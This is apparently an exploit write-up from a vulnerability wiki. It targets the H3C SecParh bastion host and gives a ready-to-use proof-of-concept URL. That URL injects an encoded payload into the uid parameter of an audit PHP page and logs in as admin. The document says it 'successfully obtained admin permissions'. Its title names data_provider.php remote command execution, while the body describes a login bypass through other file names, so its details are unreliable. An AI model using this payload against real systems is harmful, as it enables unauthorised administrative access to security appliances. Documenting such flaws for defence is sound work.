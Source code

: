 # H3C SecParh Fortress data_provider.php remote command execution vulnerability

## Vulnerability Description

H3C SecParh Fortress get_detail_view.php There is a vulnerability to log in to any user

Similar to the loopholes that appeared in the Qizhi Fortress

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">H3C SecParh Fortress</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210616132951212.png)



The URL of POC verification is

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/h3c-1.png)



Successfully obtained admin permissions



## 